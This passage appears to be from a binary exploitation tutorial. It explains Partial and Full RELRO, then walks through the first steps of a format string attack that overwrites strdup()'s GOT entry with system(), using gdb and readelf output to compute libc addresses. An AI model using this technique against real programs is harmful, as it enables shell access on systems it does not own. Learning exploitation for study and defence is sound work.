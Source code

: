 **Partial RELRO:**

    * the ELF sections are reordered so that the ELF internal data sections (.got, .dtors, etc.) precede the program's data sections (.data and .bss)
    * non-PLT GOT is read-only
    * GOT is still writeable

**Full RELRO:**

    * supports all the features of partial RELRO
    * the entire GOT is also (re)mapped as read-only


If you're struggling with the whole Global Offset Table mess I strongly recommend reading these articles on 0x00sec:

1. [Linux Internals ~ Dynamic Linking Wizardry](https://0x00sec.org/t/linux-internals-the-art-of-symbol-resolution/1488)!
2. and [Linux Internals ~ The Art Of Symbol Resolution](https://0x00sec.org/t/linux-internals-dynamic-linking-wizardry/1082) for an even more detailed introduction!

If you're still continuing reading without prior knowledge here is the basic approach I'm gonna take:

    1. Find a way to get a shell
    2. Calculate the bytes to write for a format string attack
    3. Overwrite the GOT entry for strdup() with a function we can actually use for an exploit: system()


First we want to examine where our local libc is located.
We can do this from within gdb as well:

    gef➤  vmmap libc
    Start      End        Offset     Perm Path
    0xf7dfd000 0xf7fad000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so       <-
    0xf7fad000 0xf7faf000 0x001af000 r-- /lib/i386-linux-gnu/libc-2.23.so
    0xf7faf000 0xf7fb0000 0x001b1000 rw- /lib/i386-linux-gnu/libc-2.23.so
    gef➤

The base address of the used libc is at `0xf7dfd000`.

Next we want to find a way to pop a shell.
What could be better than `system()`:

    $ readelf -s /lib/i386-linux-gnu/libc-2.23.so | grep system
        245: 00112ed0    68 FUNC    GLOBAL DEFAULT      13 svcerr_systemerr@@GLIBC_2.0
        627: 0003ada0    55 FUNC    GLOBAL DEFAULT      13 __libc_system@@GLIBC_PRIVATE
        1457: 0003ada0    55 FUNC    WEAK   DEFAULT     13 system@@GLIBC_2.0            <-

`system()` offset in glibc is `0x3ada0`.

Let's add up those to addresses to get the final address of `system()` in the library.

> 0xf7dfd000 + 0x3ada0 = 0xf7e37da0

Let's check if we didn't fail our maths:

    gef➤ x 0xf7e37da0
    0xf7e37da0 <__libc_system>:	0x8b0cec83
    gef➤
